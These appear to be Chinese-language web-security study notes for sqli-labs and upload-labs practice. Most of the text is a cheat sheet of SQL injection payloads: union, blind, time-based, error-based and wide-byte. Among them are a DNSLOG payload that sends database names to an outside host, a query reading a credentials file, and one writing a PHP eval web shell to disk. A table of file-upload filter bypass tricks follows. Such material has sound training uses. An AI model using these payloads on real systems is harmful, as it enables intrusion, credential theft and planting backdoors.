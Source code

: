 ### 注入语句示例

```sql
?id=1' or 1=1 --+ # %23						##简单注入
?id=1 order by 3

?id=1' union select 1,version(),database()	##简单联合注入

?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+			##联合注入查表

?id=1' and (ascii(substr((select database()) ,4,1))) = 117 --+ ##盲注

?id=1' and if(1=1, sleep(5), null)  --+		##时间盲注

?id=1' or updatexml(1,concat('~',(select database())),1)  --+	##报错注入

##请求头注入
先在数据库中插入payload再进行注入	##二次注入
?id=1' union select 1,loadfile(concat('//',(select database()),'.m0bkps2j.eyes.sh/abc')),3 --+
									##DNSLOG注入，前提secure_file_priv=为空，服务器为Windows
									
kobe%df'+or+1=1#  ##宽字节注入
?id=-1'  union select 1,2,load_file('C:/phpstudy_pro/WWW/sqli/sql-connections/db-creds.inc') %23					##sql查文件，前提secure_file_priv=为空
?id=-1'  union select 1,2,'<?php 
eval($_POST["pass"]);'
 into outfile 'C:/phpstudy_pro/WWW/sqli/sql-connections/1.php' %23
										##sql写文件，前提secure_file_priv=为空
```



## XSS

### CSP策略

只允许加载本地源图片，用于防止XSS注入



## 文件上传

### update-labs攻略（php）

| 关卡 | 通关技巧                                                     |
| ---- | ------------------------------------------------------------ |
| 1    | 前端js绕过，删除对应代码                                     |
| 2    | 修改请求头文件类型                                           |
| 3    | 上传php其他文件类型绕过                                      |
| 4    | 上传.htaccess文件绕过                                        |
| 5    | 大小写绕过：`phP`                                            |
| 6    | 空格绕过：`php `                                             |
| 7    | .绕过：`php.`（Windows特性）                                 |
| 8    | 文件隐藏寄生：`.php::$data` (Windows特性)                    |
| 9    | 规则多写绕过：`.php. .`                                      |
| 10   | 双写：`.pphphp`                                              |